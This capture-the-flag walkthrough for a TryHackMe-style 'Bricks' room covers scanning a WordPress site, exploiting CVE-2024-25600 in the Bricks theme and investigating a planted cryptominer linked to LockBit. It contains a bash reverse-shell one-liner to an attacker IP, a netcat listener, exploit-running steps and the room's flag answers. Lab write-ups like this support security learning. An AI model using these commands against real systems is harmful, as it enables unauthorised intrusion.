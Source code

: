 Add the following entry to your hosts file.
Open the file `/etc/hosts` with root privileges using a text editor:
```BASH
sudo nano /etc/hosts
```
At the end of the file add this line:
```BASH
$ip bricks.thm
```

Start by performing an Nmap scan. Use the following command to scan the target and determine open ports and running services:
```BASH
nmap -sV $ip
```
![image](https://github.com/user-attachments/assets/fd72d9cd-2bb1-4767-b85c-e683530ec48b)  

The scan output shows that the website uses HTTPS on port 443 and that Apache is serving the application.

<span style="line-height:0.5;">&nbsp;</span>

Next, run a Gobuster scan to further examine the website:
```BASH
gobuster dir -u "https://bricks.thm/" -w /usr/share/wordlists/dirb/big.txt -t 10 -x .txt,.php -k
```
![image](https://github.com/user-attachments/assets/9d6f6539-9d61-41c3-95c6-d938f6f9b713)  

The results indicate that the website is using WordPress.

<span style="line-height:0.5;">&nbsp;</span>

### What is the content of the hidden .txt file in the web folder?
Use [WPscan](https://wpscan.com/) to enumerate the WordPress instance:
```BASH
wpscan --url https://bricks.thm --disable-tls-checks --enumerate u,vp,vt
```
- url - target URL
- disable-tls-checks - skip the expired cert problem (same as -k)
- u - enumerate usernames
- vp - vulnerable plugins
- vt - vulnerable themes

![image](https://github.com/user-attachments/assets/f07e50d8-beab-4318-9aff-75ecc53a7895)

The WPScan output shows that the version of the Bricks WordPress theme is vulnerable. The vulnerability is known as [CVE-2024-25600](https://nvd.nist.gov/vuln/detail/CVE-2024-25600). A remote code execution exploit script is available on GitHub. Download that script and check provided README.md, because you have to install additionall libraries from python [source](https://github.com/Chocapikk/CVE-2024-25600). 

<span style="line-height:0.5;">&nbsp;</span>

Run the exploit script using this command:
```BASH
python exploit.py -u https://bricks.thm
```

<span style="line-height:0.5;">&nbsp;</span>

The exploit should allow you to execute code on the target server and eventually give you a shell. When you receive the shell, you must stabilize it. Set up a Netcat listener on your machine with this command:
```BASH
nc -lvnp 4444
```
In the compromised shell, run:
```BASH
bash -c 'bash -i >& /dev/tcp/10.10.96.142/4444 0>&1'
```
![image](https://github.com/user-attachments/assets/d92e241f-15f1-4da1-abad-e22b2d18156d)
![image](https://github.com/user-attachments/assets/1574c009-afb3-48ad-903b-cc124c46c6bd)

<pre>THM{fl46_650c844110baced87e1606453b93f22a}</pre>

This action creates a reverse shell that connects back to your Netcat listener. To further stabilize the shell, execute this command within the Netcat session:
```BASH
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<span style="line-height:0.5;">&nbsp;</span>

### What is the name of the suspicious process?
Inspect the running processes by using `systemctl | grep running` command.  

![image](https://github.com/user-attachments/assets/54b8fffe-6262-45b2-a332-4fe0814e385c)  

There is a suspicious process named ubuntu.service TRYHACK3M. To examine the process in detail, display the contents of the service file:
```BASH
cat /etc/systemd/system/ubuntu.service                                                     
```
![image](https://github.com/user-attachments/assets/f2d9ea26-3284-4bb8-afe8-65f977fef8fd) 

The file shows that the suspicious process is called nm-inet-dialog. Its associated service is named ubuntu.service.
<pre>nm-inet-dialog</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the service name affiliated with the suspicious process?
<pre>ubuntu.service</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the log file name of the miner instance?
Next, investigate the log file for the miner instance: `ExecStart=/lib/NetworkManager/nm-inet-dialog`. Change into the directory: `/lib/NetworkManager`:
```BASH
cd /lib/NetworkManager                                                  
```
![image](https://github.com/user-attachments/assets/ffeaf339-0750-41d9-812f-7ca0c49c1252)  

List the directory contents and note that there is a configuration file called `inet.conf`. View the file with:
```BASH
cat inet.conf                                               
```
![image](https://github.com/user-attachments/assets/2f313a83-75ba-4da2-8d98-554c60e3a5f3)
<pre>inet.conf</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the wallet address of the miner instance?
The file contains settings that include an encrypted or obfuscated wallet identifier. Retrieve the miner’s wallet address by copying the value from the file and decrypt the value with [CyberChef](https://gchq.github.io/CyberChef/).

![image](https://github.com/user-attachments/assets/14c37060-f054-4fae-889c-d2350f2252c6)  

After decryption you receive two similar bitcoin wallet addresses:
`bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`
`bc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa`    

Check both addresses on a [blockchain explorer](https://www.blockchain.com/en/). The first address shows the expected transaction history. This confirms that the correct wallet address is the first one.  

![image](https://github.com/user-attachments/assets/9d46c7cd-c3e1-42dc-b9c1-d666f3c3d8f9)

![image](https://github.com/user-attachments/assets/ecb9f109-f895-4161-97ea-18496561bae6)

<pre>bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa</pre>

<span style="line-height:0.5;">&nbsp;</span>

### The wallet address used has been involved in transactions between wallets belonging to which threat group?
Finally, determine which threat group is associated with this wallet.  

![image](https://github.com/user-attachments/assets/502326e2-e66c-450d-abd6-847101d44441)

Search for the wallet address 32pTjxTNi7snk8sodrgfmdKao3DEn1nVJM using a search engine. The search results include information from an official [OFAC page](https://ofac.treasury.gov/recent-actions/20240220).

![image](https://github.com/user-attachments/assets/62b412eb-5f19-4d7d-b566-533d3d21d06c)

The record links the wallet with transactions performed by affiliates of a Russian-based threat group. The investigation confirms that the threat group is known as:
<pre>LockBit</pre>
